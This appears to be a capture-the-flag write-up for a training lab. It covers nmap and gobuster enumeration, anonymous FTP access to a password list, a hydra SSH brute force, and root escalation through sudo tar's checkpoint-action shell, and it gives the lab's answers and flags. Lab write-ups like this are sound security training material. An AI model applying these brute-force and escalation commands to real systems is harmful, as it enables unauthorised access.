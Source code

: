 

# Find open ports on the machine

`nmap -sS -Pn -p- -T4 -vv $target`
`nmap -sU -Pn -p- -T4 -vv $target`


Open ports are SSH, FTP and HTTP.
# Who wrote the task list?

Navigate to the target in a web browser we see a web page with some background and some names.  The source contains no comments

`gobuster dir --url $target -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

This only returned the `/images/` directory that contained the image we see on the main page.

Looking at the open ports, I attempted a connection to FTP using anonymous, the connection succeeded, but I was required to manually set passive mode off to allow data.

```
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Getting the `task.txt` we can see that the file was authored by `lin`
```task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We also look at `locks.txt`
```locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Answer: `lin`

# What service can you bruteforce with the text file found?

Assuming `locks.txt` contains passwords for `lin`, lets try brute forcing the SSH connection.

`hydra -l lin -P locks.txt $target -t 4 ssh`
we get a successful response
```
[22][ssh] host: 10.10.85.128   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

Answer: `ssh`

# What is the users password?

Answer: `RedDr4gonSynd1cat3`

# user.txt

Answer: `THM{CR1M3_SyNd1C4T3}`

# root.txt

Running `sudo -l` we can execute `/bin/tar`
[GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)
We run `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
```
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
```